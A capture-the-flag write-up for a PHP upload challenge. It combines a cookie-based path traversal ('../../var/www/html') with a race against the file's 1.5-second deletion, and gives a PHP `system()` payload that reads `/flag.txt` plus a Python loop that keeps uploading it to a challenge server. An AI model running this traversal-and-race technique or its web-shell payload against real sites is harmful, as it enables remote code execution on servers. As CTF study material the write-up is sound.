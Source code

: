 ## Vulnerability

The file is saved for 1.5 seconds before being deleted. That is the problem!

If we upload the ```exploit.php``` file, we can call it to read ```/flag.txt``` before it is deleted
```php
<?php system("cat /flag.txt;") ?>
```

Target is clear! Now let's kill the site down!

## Exploitation

The website is at ```/var/www/html```, so our target is to upload file there.

Check the file path again
```php
$uploadpath = "/var/tmp/";
$error = "";

$timestamp = time();

$userValue = $_COOKIE['user'];
$target_file = $uploadpath . $userValue . "_" . $timestamp . "_" . $_FILES["image"]["name"];
```

The file is uploaded to ```/var/tmp/```.

But ```$userValue``` is get from ```$_COOKIE['user']``` by ```$userValue = $_COOKIE['user'];```, so we can handle it, by giving it value ```../../var/www/html```! (This is the minor vulnerability: using untrusted data directively)

Uploading file is done! Now we need to call the file.

Another annoying here, ```$timestamp```.

We can run 2 independent thread, one is keep uploading code, another keep calling the file from the future timestamp.

- Current timestamp is 1004. The second thread keeps calling the file from timestamp 1009.

- The first thread keeps uploading file. It will be named 1004, 1005, 1006, etc. When it is named 1009, it will be called successfully.

## Solution

```exploit.php``` file to be upload
```php
<?php system("cat /flag.txt;") ?>
```

```metadata_inp.py``` keeps uploading ```exploit.php```
```python
import requests

session = requests.Session()
session.cookies.set('user', '../../var/www/html/a')

while True:
    with open('exploit.php', 'rb') as f:
        # r = session.post('http://localhost:1337/', files={'image':('exploit.php', f)})
        r = session.post('http://13.215.248.36:30301', files={'image':('exploit.php', f)})
        print(r.status_code)
```
